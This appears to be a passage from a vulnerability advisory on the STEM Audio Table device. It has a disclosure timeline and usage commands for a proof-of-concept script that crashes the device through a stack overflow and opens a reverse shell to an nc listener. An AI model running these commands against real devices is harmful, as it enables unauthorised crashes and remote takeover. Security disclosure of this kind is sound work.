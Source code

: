 ## Testing

A Python script, `stem.py`, is provided to interface with the STEM Audio
Table device. This script can be used to validate two of vulnerabilities
outlined above: the `local_server_get` stack overflow and the command
line injection. Additionally, this script provides functions for
interfacing with the device in other ways as an unauthenticated user,
including decrypting encrypted messages with the leaked private key,
turning the device’s display lights on and off, and factory reseting the
device.

To exercise the stack overflow and, as a result, observe a device
reboot, the following command can be used where `$STEM_IP` is the IP
address of the STEM Audio Table device:

python3 stem.py –ip \$STEM_IP –func crash

Once the service crashes a hardcoded fifteen second timer begins, after
which the device will begin to reboot itself. On boot the device will
emit an audible chime. This will be observed roughly two minutes after
the forced crash.

The second provided Proof of Concept (PoC) is for the reverse-shell as
shown in Listing
<a href="#revshell" data-reference-type="ref" data-reference="revshell">[revshell]</a>.
First, spawn a network listener using `nc` as shown in the same listing,
followed by:

python3 stem.py –ip \$STEM_IP –func reverse-shell –args
\$LOCAL_IP:\$LOCAL_PORT

Where `$LOCAL_IP` and `$LOCAL_PORT` are the IP and port as specified in
the local network listener. Additionally, the `–func` argument `list`
can be used to see all supported commands and their descriptions.

# Timeline

-   04/23/2021 - First attempt to Notify vendor (Stem Audio)

-   04/28/2021 - Second attempt to notify vendor (Stem Audio)

-   05/07/2021 - Notified parent company (Shure)

-   06/08/2021 - Final patch released by Stem Audio

-   06/08/2021 - NotQuite0DayFriday release

-   06/08/2021 - Blog post release
